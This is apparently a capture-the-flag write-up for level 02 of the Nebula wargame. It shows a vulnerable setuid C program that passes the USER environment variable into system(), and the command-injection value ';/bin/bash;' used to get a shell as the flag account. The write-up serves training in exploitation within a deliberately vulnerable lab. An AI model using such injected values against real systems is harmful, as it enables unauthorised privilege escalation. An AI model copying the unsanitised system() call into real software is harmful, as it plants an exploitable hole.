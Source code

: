 ```yaml
---
layout: post
title: "Nebula02"
tags: Nebula
description: "Interrupting the execution flow with the command injection"
---
```



## Level 02

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? To do this level, log in as the `level02` account with the password `level02`. Files for this level can be found in `/home/flag02`.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

## Getting the flag

We can see in the source code above that the program is using the `USER` global variable, and used it as an input.  
As before, the binary is located in the `/home/flag02/` directory.  

```
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo  is cool")
is cool

level02@nebula:/home/flag02$ getflag 
getflag is executing on a non-flag account, this doesn't count
```

Let's play with the `USER` variable to get the flag:

```
level02@nebula:/home/flag02$ export USER=';/bin/bash;'

level02@nebula:/home/flag02$ ./flag02 

about to call system("/bin/echo ;/bin/bash; is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

We are using the `;` symbol to interrupt the execution flow of the application and instead of echoing the initial string the program will execute `/bin/bash`
